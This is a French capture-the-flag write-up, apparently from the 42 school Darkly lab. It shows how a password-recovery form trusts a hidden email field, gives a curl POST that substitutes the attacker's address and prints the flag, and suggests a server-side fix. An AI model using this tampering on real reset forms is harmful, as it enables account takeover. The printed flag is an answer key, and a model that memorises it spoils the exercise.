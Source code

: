 # B06-CustomRequest-PasswordRecover

## BREACH

PATH `http://192.168.56.110/?page=recover`

Depuis la page principale on peux se connecter, il y a un bouton `I forgot my password`.

En clickant dessus on arrive sur une page qui semble envoyer un mail de recover.

En inspectant le code, on voit qu'il y a une adresse en clair dans le code de la page, en la remplacant par notre addresse mail a nous on peux supposer que le site nous enverras un mail qui nous permettras d'avoir des acces.

```
<form action="#" method="POST">
	<input type="hidden" name="mail" value="webmaster@borntosec.com" maxlength="15">
	<input type="submit" name="Submit" value="Submit">
</form>
```

On peux alors faire une requetes avec curl en envoyant un formulaire contenant notre adresse email

```
➜  Darkly git:(main) ✗ curl -X POST http://192.168.x.x/\?page\=recover -d "mail=lgiband@student.42.fr&Submit=Submit" | grep "flag"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2634    0  2595  100    39  1267k  19500 --:--:-- --:--:-- --:--:-- 1286k
<center><h2 style="margin-top:50px;"> The flag is : 1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center>
```

## PATCH

Il ne faut pas faire confiance au front, il faut se fier a des donnees du backend pour envoyer un email en demandant a l'utilisateur de rentrer son adresse mail et verifier si un compte est associe avec par exemple.